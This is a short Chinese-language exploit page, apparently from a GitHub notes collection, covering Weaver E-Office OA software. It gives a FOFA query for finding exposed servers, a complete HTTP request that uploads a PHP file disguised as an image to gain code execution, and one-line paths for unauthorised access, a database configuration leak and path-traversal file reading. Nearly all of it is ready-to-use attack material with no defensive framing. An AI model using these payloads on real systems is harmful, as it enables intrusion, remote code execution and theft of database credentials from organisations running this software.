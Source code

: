 # 泛微OA E-Office 漏洞
## 资产收集
fofa:`app="泛微-EOffice"`
## 任意文件上传
### POC
```h
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```
![](./img/E-Office-UploadFile.png)  
`/images/logo/logo-eoffice.php`  
![](./img/phpinfo.png)  
## UserSelect 未授权访问
### POC
`/UserSelect/`
## mysql_config.ini 数据库信息泄漏
### POC
`/mysql_config.ini`
## 任意文件读取漏洞
### POC
`/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini`